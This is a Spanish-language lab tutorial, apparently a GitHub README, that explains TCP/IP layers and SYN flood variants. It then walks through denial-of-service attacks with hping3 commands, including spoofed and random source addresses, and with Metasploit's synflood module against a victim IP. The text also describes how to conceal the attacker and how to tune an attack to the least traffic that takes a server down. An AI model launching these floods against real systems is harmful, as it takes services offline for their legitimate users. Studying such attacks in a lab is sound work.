




# 	Ataque DoS (Denial Of Service) utilizando HTTPFlood

> [!IMPORTANT]
> Laboratorio HTTPFlood (Kali Linux 2023.4) mediante la utilización de scripts externos como <b>Slowloris</b>, <b>DoS-Tool</b> y <b>TCP-UDP-Flood</b>. Un ataque DoS o DDoS no es más que el envío de un número exageradamente elevado de peticiones a una dirección IP que, normalmente, suele ser un servidor o infraestructura, el cual llega a ser incapaz de gestionar dicho número de peticiones, causando un error o crasheo del sistema y la detención y/o reinicio de servicios, quedando inaccesible al resto de usuarios. 

> En la más cruda realidad, los ataques <b>HTTP flood</b> se basan en las peticiones <b>GET</b> o <b>POST</b> del cliente, es decir, el navegador que quiere acceder al sitio web, el cual envía una de estas solicitudes que, posteriormente, procesa el servidor y, a su vez, envía la respuesta de vuelta al cliente. Como en todo, siempre hay un pero:

- <b>Peticiones GET</b>: recuperan contenido estático (imágenes o bloques de texto), es decir, recibe datos del servidor
- <b>Peticiones POST</b>: se utilizan para acceder a recursos dinámicos, es decir, se envían datos al servidor. 

Ambos pueden utilizarse para efectuar este ataque HTTP Flood, aunque el método POST se emplea con más frecuencia, porque requiere un procesamiento complejo por parte del servidor. Así, en el momento que se ejecuta un <b>ataque HTTP flood</b>, se realizan muchas de estas peticiones simultáneamente y durante un período de tiempo prolongado.


 Por lo general, se usa una botnet para aumentar la cantidad de solicitudes. El ataque HTTP flood se diseña de tal manera que el servidor dedica el mayor volumen de recursos posible a cada petición. En una situación normal, esto es deseable, porque el servidor no recibe miles o cientos de miles de solicitudes por minuto, como sucede en este caso. Así, en este caso, el atacante no tiene más que esperar a que el servidor se desborde, con la consiguiente caída de la aplicación o del sitio web.


------------------------------------------------------------------------------


> En este caso, con el ataque de tipo <b>SYN flood</b>, constituye un abuso del <b>TCP Threeway Handshake</b>:
- 1.- Se utiliza el <b>TCP (Transmission Control Protocol)</b>, un protocolo de red que, junto al IP, asegura un tráfico de datos sin pérdidas a través de Internet. Una conexión TCP siempre se establece con una autenticación completa de tres pasos. 
- 2.- Para la conexión, el cliente envía un <b>paquete de sincronización (SYN)</b> al servidor, el cual, cuando es recibido por parte del servidor, responde con un <b>paquete de sincronización (SYN)</b> y una <b>confirmación (ACK)</b>. 
- 3.- La conexión concluye con el <b>acuse de recibo (ACK)</b> se realizar por parte del cliente. 
> En caso de que el último acuse no se produzca, los sistemas se pueden paralizar ya que el servidor no cuenta en su memoria con suficientes conexiones confirmadas... Por medio de una inundación SYN se reúne un gran número de conexiones incompletas, por lo que los recursos disponibles del servidor se ocupan por completo.

> ### Primeros conceptos: MODELO TCP/IP :computer:
> Como primer concepto, se ha de conocer el <b>modelo TCP/IP</b>, protocolo de red que permite la comunicación a través de Internet (abreviatura de <b>Protocolo de control de transmisión/Protocolo de Internet</b>), el cual es un protocolo estándar y un modelo (en la actualidad) de 4 capas que define cómo se transmiten los datos a través de una red y cómo se comunican los dispositivos. Su origen se da en la década de 1970 gracias al Departamento de Defensa de USA (DOD), ya que se pretendía crear una red que pudiera funcionar incluso si partes de ella resultaran dañadas o destruidas. Posteriormente, el modelo TCP/IP se publicó por primera vez en 1981 (versión 4) y luego se actualizó a la versión 6 en 1995. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_1.png">
  
</picture>
</p>


> Veamos todas las capas TCP/IP: 

> <b>1.- Capa de aplicación</b>: es la capa más alta del modelo TCP/IP, un marco que define cómo se comunican los dispositivos a través de una red, es decir, es la capa más cercana al usuario final y representa las aplicaciones que se ejecutan en el dispositivo y utilizan la red para comunicarse y cuya función principal es proporcionar un medio para que las aplicaciones accedan a la red y se comuniquen con otros dispositivos. Así, se presentan un conjunto de protocolos que permiten a las distintas aplicaciones enviar y recibir datos a través de la red, como por ejemplo los protocolos <b>HTTP (Protocolo de transferencia de hipertexto)</b>, <b>SMTP (Protocolo Simple de Transferencia de Correo)</b>, <b>DNS (Sistema de Nombres de Dominio)</b>, <b>RDP (Protocolo de Escritorio Remoto)</b>, <b>SNMP (Protocolo simple de gestión de red)</b>, <b>FTP (Protocolo de Transferencia de Archivos)</b> o <b>HTTPS (Protocolo Seguro de Transferencia de Hipertexto)</b>

> <b>2.- Capa de transporte</b>: define cómo se comunican los dispositivos a través de una red, por lo que se sitúa por encima de la capa de Internet y de la capa de aplicación, lo que le brinda una función principal que garantiza la entrega fiable de datos entre los dispositivos de una red, es decir, es responsable de establecer y mantener la comunicación de extremo a extremo entre dispositivos y de proporcionar comprobación de errores y control de flujo. Para ello, utiliza dos protocolos principales para lograr estos objetivos, como son <b>TCP (Protocolo de Control de Transmisión)</b> como protocolo orientado a la conexión que proporciona una entrega de datos fiable y <b>UDP (Protocolo de Datagramas de Usuario)</b> como protocolo sin conexión que no garantiza la entrega de datos. Además, esta capa ofrece servicios como la numeración de puertos, lo cual permite que varias aplicaciones de un mismo dispositivo se comuniquen simultáneamente a través de la red, proporcionando además multiplexación y demultiplexación para la transmisión de múltiples flujos de datos a través de una única conexión.

> <b>3.- Capa de Internet</b>: se encarga de proporcionar servicios lógicos de direccionamiento y encaminamiento para garantizar que los paquetes de datos se entregan desde su origen hasta su destino a través de una red, es decir,m proporciona los medios para que dos dispositivos se comuniquen entre sí independientemente de su ubicación física o del tipo de red a la que estén conectados. Algunos ejemplos de protocolos de capa de Internet son, por ejemplo, el <b>Protocolo de Internet (IP)</b> , <b>Protocolo de Mensajes de Control de Internet (ICMP)</b>, <b>Protocolo de Gestión de Grupos de Internet (IGMP)</b>, <b>Protocolo de resolución de direcciones (ARP)</b>, <b>Protocolo de Resolución Inversa de Direcciones (RARP)</b> y el <b>Protocolo de Internet versión 6 (IPv6)</b>.

> <b>4.- Capa de acceso a la red</b>: también conocida como <b>capa de enlace</b>, es responsable (junto con las anteriores capas) de la transmisión de datos entre dispositivos de una red local, es decir, se encarga de transmitir datos entre dispositivos conectados físicamente a la misma red y utiliza protocolos como Ethernet y Token ring. Esta capa se encarga de añadir una cabecera a cada paquete de datos que contiene información como la <b>dirección MAC (Media Access Control)</b> de destino y el número de secuencia del paquete (recordemos que la dirección MAC es un identificador numérico único asignado a cada dispositivo conectado a la red). Ejemplos de protocolos de esta capa pueden ser <b>Token Ring (IEEE 802.5)</b>, <b>PPP (Protocolo Punto a Punto)</b> y <b>Frame Relay</b>.

> Sabiendo esto, estamos en disposición de comenzar a realizar un ataque de <b>inundación TCP SYN</b>, muy efectivo si realizamos Dos o DDoS. Realmente, este tipo de ataque realiza un bombardeo masivo de peticiones de conexión al servidor objetivo (mediante paquetes SYN), siempre sin responder a los acuses de recibo de transmisión que se lanzan por parte del server (los que serían paquetes ACK SYN). Evidentemente, al no terminar la negociación, se consumen los recursos del servidor para básicamente desplazar el tráfico legítimo, haciendo imposible abrir nuevas conexiones legítimas y dificultando o imposibilitando el funcionamiento correcto del servidor para los usuarios autorizados que ya están conectados.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_2.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_2.png">
  
</picture>
</p>

> Existen varios tipo de ataque:
- <b>Ataque directo</b>: en este caso, el atacante no oculta su dirección IP. Dado que para crear el ataque utiliza un único dispositivo de origen con una dirección IP real, el atacante es altamente vulnerable a ser descubierto y a las mitigaciones (blacklist y otros bloqueos). 
- <b>Ataque con suplantación</b>: el atacante puede falsificar la dirección IP en cada paquete SYN que dr envíe para obstaculizar los esfuerzos de mitigación y dificultar que se descubra su identidad... Los paquetes pueden ser falsificados, aunque estos podrían llegar a rastrearse hasta su origen ya que, principalmente, dependemos de los <b>ISP (Internet Service Provider)</b>.
- <b>Ataque distribuido (DDoS)</b>: si un ataque se crea usando una <b>red de bots (botnet)</b>, es muy difícil rastrear el ataque hasta su origen ya que, por añadidura, el atacante puede hacer que cada dispositivo distribuido también falsifique las direcciones IP desde las que envía los paquetes. 
- <b>Ataques SYN flood por reflejo</b>: un servidor suele responder normalmente a un solo paquete SYN con varios paquetes SYN/ACK, por lo que se puede aprovechar esta circunstancia para lanzar un ataque SYN flood por reflejo donde el atacante falsifica la dirección IP de la víctima e inicia un ataque SYN flood DDoS contra uno o varios servidores de terceras partes... Así, cada uno de los servidores responde a cada paquete SYN entrante con varios paquetes SYN/ACK que se envían a la víctima, por lo que se produce una multiplicación del tráfico de red y, evidentemente, un bombardeo de paquetes SYN/ACK recibido en el PC de la víctima, el cual terminará colapsando.

> En la realidad, al usar un ataque de inundación SYN, se intenta crear una denegación de servicio en un dispositivo o servicio atacado con bastante menos tráfico que otros tipos de ataques DDoS más agresivos, es decir, que en lugar de ataques volumétricos (que intentan saturar la infraestructura de la red que rodea al objetivo), los ataques SYN solo necesitan ser más grandes que el registro disponible dentro del sistema operativo del objetivo. Así, si se logra determinar el tamaño del registro y cuánto tiempo queda abierta una conexión antes de que finalice el tiempo de espera, entonces se podrán obtener los parámetros exactos necesarios para deshabilitar el sistema, reduciendo el tráfico total hasta el mínimo necesario para crear una denegación de servicio.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_3.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_3.png">
  
</picture>
</p>

> ### Trabajando con TCP-SYN Flood / SYN-ACK: HPing3 :computer:
> <b>Hping3</b> es una aplicación de Kali Linux que permite analizar y ensamblar paquetes TCP/IP, aunque se utiliza para enviar paquetes TCP, UDP y RAW-IP. Su uso va desde el simple análisis de los paquetes, hasta probar la eficacia de un firewall a través de diferentes protocolos, la detección de paquetes sospechosos o modificados e incluso la protección frente a ataques DoS de un sistema o de un firewall.
> Veamos diversos tipos de ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), lanzamos el comando o, si no está disponible, instalaremos el paquete mediante el código:
<b>

```
apt-get install hping3
```
</b>

- <b>Paso 2</b>: Podemos realizar un ataque muy sencillo de tipo DDoS con el comando:
<b>

```
hping3 -p 80  -S --flood [ip_victima]
```
</b>
Se puede comprobar que <b>-p</b> es utilizado para determinar el puerto, que <b>-S</b> activa la flag SYN del paquete TCP-IP, y que <b>--flood</b> indica que el envío de paquetes se realizará de la manera más rápida posible. Además, podemos encubrir el origen con múltiples variantes

<b>

```
hping3 -a [ip_atacante_falsa] -p 80  -S --flood [ip_victima] # IP de origen encubierta
```
</b>

<b>

```
hping3 --rand-source -p 80  -S --flood [ip_victima] # IP de origen generada aleatoriamente
```
</b>

<b>
```
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.47
```
</b>
Podemos comprobar que las variables <b>-c</b> determina la cantidad de paquetes que se enviarán, que <b>-S</b> activa la flag SYN del paquete TCP-IP, que <b>-p</b> es utilizado para determinar el puerto al que realizar el ataque, <b>-d</b> determina el tamaño de los paquetes que se envían y que <b>-w</b> sirve para mostrar las respuestas Windows.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_4.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_4.png">
  
</picture>
</p>

> ### Trabajando con SYNFlood: METASPLOIT SynFlood :computer:
> <b>SynFlood</b> es una de las herramientas auxiliares disponibles en el <b>Framework Metasploit</b> donde, de nuevo, la herramienta se aprovecha de un fallo en la forma en que la mayoría de los hosts tienen implementado el handshake TCP de tres vías.
> Veamos la realización del ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), arrancamos PostGreSQL:
<b>

```
service postgresql start
```
</b>

- <b>Paso 2</b>: Posteriormente, cargamos el Framework Metasploit con ayuda del comando:
<b>

```
msfconsole
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_5.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_5.png">
  
</picture>
</p>

- <b>Paso 3</b>: Ya en el Framework Metasploit, nos disponemos a cargar la herramienta auxiliar con ayuda del comando:
<b>

```
use auxiliary/dos/tcp/synflood
```
</b>

- <b>Paso 4</b>: Gracias al comando que mostramos a continuación, podemos configurar la IP de la víctima:
<b>

```
set RHOST [ip_victima]
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_6.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_6.png">
  
</picture>
</p>

Podemos comprobar si está o no configurado mediante:
<b>

```
show options
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_7.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_7.png">
  
</picture>
</p>

- <b>Paso 5</b>: Ya podemos realizar el ataque SYN Flood sin problema:
<b>

```
Exploit
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_8.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_8.png">
  
</picture>
</p>